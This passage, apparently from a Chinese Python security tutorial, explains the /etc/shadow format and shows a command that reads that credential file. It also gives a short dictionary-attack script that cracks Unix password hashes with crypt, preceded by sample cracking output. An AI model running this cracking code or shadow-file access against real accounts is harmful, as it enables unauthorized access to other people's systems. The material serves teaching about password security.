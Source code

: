 输出:

```plain
[*] Craking Password for victim.
[+] Found Password: egg               
[*] Craking Password for root.
[-] Password Not Found. 
```

### 现代 Unix 密码破解

在基于 *Nix 的现代操作系统中，`/etc/shaodw` 文件中存储了口令的 hash ，并能使用更多安全的 hash 算法。

```bash
$ sudo cat /etc/shadow | grep kali
kali:$y$j9T$U9m6hKS1vLpY.XmYv8Tke1$/dC9N2TdJ7K1OdJ6bhg.QetpUP/f7WDu9wMsEkOjYqA:19137:0:99999:7:::
```

影子文件的各字段含义如下:

`用户名:加密密码:最后一次修改时间:最小修改时间间隔:密码有效期:密码需要变更前的警告天数:密码过期后的宽限时间:账号失效时间:保留字段`

加密后的密码保存在第二部分，即 `$y$j9T$U9m6hKS1vLpY.XmYv8Tke1$/dC9N2TdJ7K1OdJ6bhg.QetpUP/f7WDu9wMsEkOjYqA` 。

其中从第1个 `$` 到最后一个 `$` 之间（左闭右开）为盐(salt)，即 `$y$j9T$U9m6hKS1vLpY.XmYv8Tke1` 。

暴力破解代码如下:

```python
import crypt  # 导入 Linux 口令加密库


def testPass(cryptPass):
    salt = cryptPass[cryptPass.find("$"):cryptPass.rfind("$")]  # 获得盐值，包含 $id 部分
    with open('01/dictionary.txt', "r") as dict_file:
        # 读取密码字典
        for word in dict_file.readlines():
            word = word.strip("\n")
            print(f"[*] try password {word:20}", end="\r")
            cryptWord = crypt.crypt(word, salt)               # 将密码字典中的值和盐值一起加密
            if (cryptWord == cryptPass):                      # 判断加密后的数据和密码字段是否相等
                print(f"[+] Found Password:{word}")        # 如果相等则打印出来
                return
        print("[-] Password Not Found.")
    return


def main():
    with open("01/password_crack/hash_password.txt", "r") as pass_file:
        # 读取加密后的密码文件
        for line in pass_file.readlines():
            # 读取密码文件
            if ":" in line:
                user = line.split(":")[0]                     # 获得用户名
                cryptPass = line.split(":")[1].strip(' ')     # 获得密码字段
                print(f"[*] Cracking Password for: {user}")
                testPass(cryptPass)

if __name__ == "__main__":
    main()

```
